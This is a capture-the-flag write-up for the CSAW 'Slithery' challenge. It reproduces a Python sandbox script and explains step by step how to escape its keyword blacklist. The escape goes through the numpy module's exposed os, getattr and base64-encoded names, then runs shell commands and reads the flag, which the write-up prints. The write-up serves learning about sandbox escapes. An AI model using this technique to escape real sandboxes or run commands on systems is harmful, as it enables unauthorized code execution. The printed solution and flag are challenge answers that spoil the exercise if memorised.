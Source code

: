 # Slithery

## Problem description

Setting up a new coding environment for my data science students. Some of them
are l33t h4ck3rs that got RCE and crashed my machine a few times :(. Can you
help test this before I use it for my class? Two sandboxes should be better
than one...

```nc pwn.chal.csaw.io 5011```

[sandbox.py](https://ctf.csaw.io/files/f273beef210bb77ed37ab74d82cb9799/sandbox.py?token=eyJ1c2VyX2lkIjo1MzYzLCJ0ZWFtX2lkIjo1MzI3LCJmaWxlX2lkIjo3NDMwfQ.X14Svg.zXKY8HMMgjM64swHwOaCZeUN5aE)

Category: pwn. Points: 100.

### sandbox.py
```
#!/usr/bin/env python3
from base64 import b64decode
import blacklist  # you don't get to see this :p

"""
Don't worry, if you break out of this one, we have another one underneath so that you won't
wreak any havoc!
"""

def main():
    print("EduPy 3.8.2")
    while True:
        try:
            command = input(">>> ")
            if any([x in command for x in blacklist.BLACKLIST]):
                raise Exception("not allowed!!")

            final_cmd = """
uOaoBPLLRN = open("sandbox.py", "r")
uDwjTIgNRU = int(((54 * 8) / 16) * (1/3) - 8)
ORppRjAVZL = uOaoBPLLRN.readlines()[uDwjTIgNRU].strip().split(" ")
AAnBLJqtRv = ORppRjAVZL[uDwjTIgNRU]
bAfGdqzzpg = ORppRjAVZL[-uDwjTIgNRU]
uOaoBPLLRN.close()
HrjYMvtxwA = getattr(__import__(AAnBLJqtRv), bAfGdqzzpg)
RMbPOQHCzt = __builtins__.__dict__[HrjYMvtxwA(b'X19pbXBvcnRfXw==').decode('utf-8')](HrjYMvtxwA(b'bnVtcHk=').decode('utf-8'))\n""" + command
            exec(final_cmd)

        except (KeyboardInterrupt, EOFError):
            return 0
        except Exception as e:
            print(f"Exception: {e}")

if __name__ == "__main__":
    exit(main())
```

## Personal note
First time solving a pwn challenge. It was fun to do a python RCE challenge,
and I also learned some new things about the python language.

## Tools
* python3 interpreter

## Solving the challenge
This is a coding environment that accepts python commands. However, there is
a blacklist, meaning a lot of our input will not be accepted. We need to get
around the blacklist to execute the commands that will let us read the flag.

This would be the naive approach (without the blacklist):
```
>>> import os
>>> # List files in current directory, hopefully the flag is there
>>> os.system("ls")
>>> # Assuming the flag is located in flag.txt
>>> os.system("cat flag.txt") # Output file content
```

Connecting via netcat: `nc pwn.chal.csaw.io 5011`

```
EduPy 3.8.2
>>> import os
Exception: not allowed!!
>>> import
Exception: not allowed!!
>>> os
Exception: not allowed!!
>>> system
Exception: not allowed!!
```

Thus, we can not import modules the traditional way, and the words "os" and "system"
are blacklisted. So we need to find another way to get the flag. Examining sandbox.py
gives us some hints. We have access to the script variables from the coding environment,
but the easiest way to examine how the code works (without being bothered by
the blacklist) is to paste it into our own python3 interpreter:

```
>>> uOaoBPLLRN = open("sandbox.py", "r")
>>> uDwjTIgNRU = int(((54 * 8) / 16) * (1/3) - 8)
>>> ORppRjAVZL = uOaoBPLLRN.readlines()[uDwjTIgNRU].strip().split(" ")
>>> AAnBLJqtRv = ORppRjAVZL[uDwjTIgNRU]
>>> bAfGdqzzpg = ORppRjAVZL[-uDwjTIgNRU]
>>> uOaoBPLLRN.close()
>>> HrjYMvtxwA = getattr(__import__(AAnBLJqtRv), bAfGdqzzpg)
>>> RMbPOQHCzt = __builtins__.__dict__[HrjYMvtxwA(b'X19pbXBvcnRfXw==').decode('utf-8')](HrjYMvtxwA(b'bnVtcHk=').decode('utf-8'))

# Examining variables
>>> print(AAnBLJqtRv)
base64
>>> print(bAfGdqzzpg)
b64decode
>>> print(HrjYMvtxwA)
<function b64decode at 0x7f2dfcadf2f0>
>>> print(RMbPOQHCzt)
<module 'numpy' from PATH+'/__init__.py'>
```

Now we know we can b64decode strings using the HrjYMvtxwA variable. This could
be a way to circumvent the blacklist.

Maybe we can put code into b64encoded strings, b64decode the strings,
and then run the decoded strings with either eval or exec?

Checking the coding environment:
```
EduPy 3.8.2
>>> eval
Exception: not allowed!!
>>> exec
Exception: not allowed!!
```

Seems eval or exec will not work. However, we also have access to the numpy module.
We can examine the numpy module further in our own python3 interpreter:
```
>>> print(RMbPOQHCzt.__dict__)
```

This module has a lot of attributes. For instance, I noticed that the sys
module is exposed through the numpy module.
```
>>> print(RMbPOQHCzt.sys)
<module 'sys' (built-in)>
```

So let's see if the os module is also exposed:
```
>>> print(RMbPOQHCzt.os)
<module 'os' from PATH+'os.py'>
```

This looks really promising. However, we still have the problem that we can not access
the os property directly from the coding environment, since the word "os" is blacklisted. To get around this restriction, we can first b64encode the word, and then b64decode it.
The problem then is that we will only have access to the word "os" as a string.
It is not possible to get a property using a string when using dot notation.

```
>>> print(RMbPOQHCzt."os")
  File "<stdin>", line 1
    >>> print(RMbPOQHCzt."os")
     ^
SyntaxError: invalid syntax
```

Actually, sandbox.py uses an alternative approach:
```
HrjYMvtxwA = getattr(__import__(AAnBLJqtRv), bAfGdqzzpg)
```

Let's find out more:
```
>>> help(getattr)

Help on built-in function getattr in module builtins:

getattr(...)
    getattr(object, name[, default]) -> value

    Get a named attribute from an object; getattr(x, 'y') is equivalent to x.y.
```

Using `getattr`, it should be possible to access the os property through a string.

Let's craft our solution in our own interpreter before trying it in the coding environment:
```
>>> base64.b64encode(b'os')
b'b3M='
>>> base64.b64encode(b'system')
b'c3lzdGVt'
>>> o = getattr(RMbPOQHCzt, HrjYMvtxwA(b'b3M=').decode('utf-8'))
>>> getattr(o, HrjYMvtxwA(b'c3lzdGVt').decode('utf-8'))("ls") # Equivalent to os.system("ls")
>>> getattr(o, HrjYMvtxwA(b'c3lzdGVt').decode('utf-8'))("cat flag.txt") # Assuming flag is in flag.txt

```

Connecting to the coding environment:
```
$ nc pwn.chal.csaw.io 5011
EduPy 3.8.2
>>> o = getattr(RMbPOQHCzt, HrjYMvtxwA(b'b3M=').decode('utf-8'))
>>> getattr(o, HrjYMvtxwA(b'c3lzdGVt').decode('utf-8'))("ls")                      
blacklist.py
flag.txt
runner.py
sandbox.py
solver.py
>>>
>>> getattr(o, HrjYMvtxwA(b'c3lzdGVt').decode('utf-8'))("cat flag.txt")
flag{y4_sl1th3r3d_0ut}
```

Finally, we obtain the flag: \
`flag{y4_sl1th3r3d_0ut}`
